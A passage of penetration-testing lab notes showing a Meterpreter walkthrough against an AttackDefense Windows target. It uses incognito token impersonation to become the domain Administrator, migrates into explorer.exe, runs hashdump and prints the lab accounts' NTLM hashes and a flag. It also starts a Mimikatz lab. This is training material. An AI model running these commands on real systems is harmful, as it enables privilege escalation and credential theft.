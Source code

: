 ```bash
load incognito
```

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available
    ========================================
    No tokens available
```

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator

ps
migrate 3548
# explorer.exe

hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

```bash
cd C:\\Users\\Administrator\\Desktop\\
dir
cat flag.txt
	x28c832a39730b7d46d6c38f1ea18e12
```

------

## Lab 4 - Dump Hashes Mimikatz

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> - Target IP: `10.2.17.39`
> - Check the [🔬Lab 2 - Mimikatz lab here](../1-system-attack/windows-attacks/creds-dump.md#lab-2-mimikatz) with full description of the commands

